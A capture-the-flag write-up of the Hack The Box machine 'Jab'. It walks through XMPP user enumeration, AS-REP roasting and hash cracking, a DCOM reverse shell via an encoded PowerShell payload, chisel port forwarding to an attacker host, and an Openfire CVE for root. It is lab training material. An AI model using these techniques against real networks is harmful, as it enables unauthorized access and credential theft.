 ![Jab](https://github.com/amalcew/htb-writeups/assets/73908014/cb89fa9a-f89d-4580-aa09-957fca449262)

## Reconnaissance & port scanning

Starting with basic enumeration in nmap: 

```bash
nmap 10.10.11.4    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 12:34 CEST
Nmap scan report for jab.htb (10.10.11.4)
Host is up (0.024s latency).
Not shown: 984 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5222/tcp open  xmpp-client
5269/tcp open  xmpp-server
7070/tcp open  realserver
7443/tcp open  oracleas-https
7777/tcp open  cbt

Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
```

The target has multiple open ports including ports used by `xmpp` server and client. XMPP is a message protocol standard - on Linux, one of the clients that allow to connect to the server ant utilize the standard is called **Pidgin**

Once the Pidgin is installed, we can try to connect to the target and register account:

![01-initial](https://github.com/amalcew/htb-writeups/assets/73908014/c2aa6c56-7781-4077-b654-301375f0e9ee)

![02-register](https://github.com/amalcew/htb-writeups/assets/73908014/c30f04d5-87ab-49a6-9612-6d8a250942c6)

After registration, we can get a room list:

![03-room_list](https://github.com/amalcew/htb-writeups/assets/73908014/ad741a3b-b3dc-44ff-8bc1-716cd9912d47)

![04-room_list2](https://github.com/amalcew/htb-writeups/assets/73908014/f17486a9-b299-45cd-9229-34e6ed0629b1)

There are two rooms, one that is accessible and one that cannot be connected to. Further enumeration of the service leads to AD user enumeration:

![05-user_enum](https://github.com/amalcew/htb-writeups/assets/73908014/8b005496-064a-4efc-bfbd-d2f334412279)

Running this query will return all users:

![06-user_enum2_defaced](https://github.com/amalcew/htb-writeups/assets/73908014/96125387-88b6-46d8-9542-7c3ceae32a31)

Running the `pidgin -d` it is possible to retrieve text-based results of the query, that will be handy during the initial foothold.

![07-user_enum3_defaced](https://github.com/amalcew/htb-writeups/assets/73908014/4edd57e7-3696-48a6-bc36-6d4e908055eb)

## Initial foothold

### AS-REP Roasting

As the target machinhe runs Kerberos, it is obvious that it utilizes some kind of Active Directory mechanic. Having the results of user enumeration query stored as .xml, it is possible to retrieve only usernames, using simple Python script:

```python
#!/usr/bin/python

import re

pattern = re.compile(r'<value>([a-zA-Z0-9_.+-]+@[a-zA-Z0-9-]+\.[a-zA-Z0-9-.]+)</value>')
file_path = 'users.xml'

emails = []
with open(file_path, 'r', encoding='utf-8') as file:
    while True:
        chunk = file.read(1024 * 1024)  # Read 1 MB at a time
        if not chunk:
            break
        emails.extend(pattern.findall(chunk))

with open('users_filtered.txt', 'w') as file:
    for email in list(set(emails)):
        file.write(f"{email.split('@jab.htb')[0]}\n")
```

Having the username list, I've run AS-REP roasting attack against the Kerberos:

```bash
> python GetNPUsers.py jab.htb/ -usersfile users_filtered.txt -format hashcat -outputfile hashes.asreproast
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User ***** doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ***** doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ***** doesn't have UF_DONT_REQUIRE_PREAUTH set

... SNIP ...

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$******@JAB.HTB:be83...SNIP...6c06
[-] User ***** doesn't have UF_DONT_REQUIRE_PREAUTH set

... SNIP ...
```

One of the retrieved hash is crackable:

```john
> john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
M*********1     ($krb5asrep$23$**********@JAB.HTB)     
1g 0:00:00:13 DONE (2024-06-24 13:06) 0.07457g/s 1069Kp/s 2946Kc/s 2946KC/s !!12Honey..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Using this password, we can log in as the user `jmontgomery`. After scanning for the available rooms, we discover a room called `pentest2003`:

![08-additional_room](https://github.com/amalcew/htb-writeups/assets/73908014/ed75a470-7486-456c-8a16-476ba7ae5e65)

Further inspection of the chat discloses a account named `svc_openfire` and hash-password value of the account.

![09-svc_openfire_defaced](https://github.com/amalcew/htb-writeups/assets/73908014/03045c37-0e5c-407d-ab63-a8c6dc26f354)

### ExecuteDCOM

As we have the password of the service account, we can try to enumerate the Active Directory, by using `bloodhound-python` ingestor:

```bash
bloodhound-python -u 'svc_openfire' -p '*******' -d jab.htb -dc DC01.jab.htb -c all -ns 10.10.11.4
```

And analyze the results of the enumeration inside `Bloodhound`:

![10-bloodhound](https://github.com/amalcew/htb-writeups/assets/73908014/802476a2-d734-4985-ad57-998a17040508)

As we can see, we can exploit the `ExecuteDCOM` functionality of the target machine, which will allow us to gain reverse shell on the target.

After crafting the payload, we are ready to go:

```bash
> python dcomexec.py -object MMC20 jab.htb/svc_openfire:'*******'@10.10.11.4 'cmd.exe /c powershell -e JABjAGwA...SNIP...KAApAA==' -silentcommand
Impacket v0.11.0 - Copyright 2023 Fortra
```

```bash
> nc -lnvp 1234  
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.4] 51723
whoami
jab\svc_openfire
PS C:\windows\system32>
```

Acquired user flag :
```
PS C:\Users\svc_openfire\Desktop> ls


    Directory: C:\Users\svc_openfire\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        6/24/2024  12:01 AM             34 user.txt                                                              


PS C:\Users\svc_openfire\Desktop> type user.txt 
818a************************04d8
```

## Privileges escalation

Internal enumeration of the host's ports discovered, that the target is hosting `openfire` server on ports 9090 and 9091:

```bash
PS C:\Users\svc_openfire\Desktop> netstat -ano | findstr '127.0.0.1:'
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       2540
  TCP    127.0.0.1:389          127.0.0.1:49779        ESTABLISHED     636
  TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING       812
  TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING       812

  ...SNIP...
```

As the Windows does not utilize ssh, we will need other means to forward ports to the attacker machine. We can use `chisel` to do this.

After transfering the `chisel` to the target, we execute the server and client commands on the attacker and target:

Attacker:
```bash
chisel server -p 1234 --reverse
```

Target:
```bash
chisel client xx.xx.xx.xx:1234 R:9090:127.0.0.1:9090 R:9091:127.0.0.1:9091
```

Opening the `localhost:9090` in the browser will greet us with login page:

![11-openfire](https://github.com/amalcew/htb-writeups/assets/73908014/018297ba-9f27-40c3-8270-1b73bc768b97)

After logging with the `svc_openfire` credentials, we are logged into the system:

![12-openfire2](https://github.com/amalcew/htb-writeups/assets/73908014/51147a87-cf43-4769-be11-82e656a24d73)

Further exploration of the panel revealed, that the service is vulnerable to [CVE-2023-32315](https://www.vicarius.io/vsociety/posts/cve-2023-32315-path-traversal-in-openfire-leads-to-rce). Following the instructions and crafting the payload allows to leverage the vulnerability and gain root access over the target.

![13-root](https://github.com/amalcew/htb-writeups/assets/73908014/e708f4af-9041-49b4-8930-bc21e2318c2e)
